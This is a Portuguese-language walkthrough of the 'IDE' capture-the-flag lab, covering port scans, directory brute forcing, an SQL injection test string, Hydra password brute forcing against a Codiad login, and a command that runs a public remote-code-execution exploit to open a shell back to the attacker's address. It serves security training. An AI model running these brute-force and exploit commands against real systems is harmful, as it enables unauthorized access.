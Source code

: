 # _**IDE CTF**_
![](ide.jpg)

## _**Enuemração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos login via FTP com o usuário **FTP**  
Temos também um website na porta 80  
Verificando o conteúdo do login FTP, não temos nenhum arquivo  
Vamos investigar o website e realizar um _brute force_ de diretórios com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/big.txt
> ```
![](scan_gobuster.jpg)

Parece que não temos nada  
Tentamos realizar upload de arquivos via FTP, mas também sem sucesso  
Ainda desconfiado, voltei para realizar um scan com **Nmap**, mas desta vez, mais simples  
> ```bash
> nmap -p- [ip_address]
> ```

Descobrimos uma porta aberta com serviço desconhecido  
Investigando com um scan **Nmap**, parece ser um webserver com uma página de login  
E também temos um nome: Codiac 2.8.4

![](scan_nmap2.jpg)

Vamos tentar um ```SQL Injection``` com: ```' || '1'='1';-- -```
Sem sucesso  
Buscando na Internet por exploits relacionados a Codiac, encontramos no GitHub a [CVE-2018-14009](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)  
Parece ser necessário um usuário e senha para poder executar este exploit  
Vamos voltar a investigar o website  

Após passar um tempo visitando diretórios e lendo arquivos, nada foi encontrado  
Voltando alguns passos, agora para o FTP, minha intuição estava dizendo que havia algo ali  
Investigando, foi encontrado um arquivo de nome (-), literalmente  
Algo fácil de passar despercebido  
Extraímos para noss computador e temos um usuário!  

![](user_discover.jpg)

Podemos utilizar <mark>Hydra</mark> para realizar _brute force_  
> ```bash
> hydra -l john -P /usr/share/wordlists/rockyou.txt [ip_address] -s 62337 http-post-form "/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username/Password"
> ```
![](hydra_result.jpg)

Parece que temos muitas senhas!  
Vamos tentar algumas  
E ```password``` era a correta. Temos acesso!  
Agora que conhecemos sua senha, vamos utilizar-se do exploit encontrado para ganhar uma shell
> ```bash
> python2 [filename].py http://[ip_address]:62337/ john password [vpn_ip_address] [port] linux
> ```
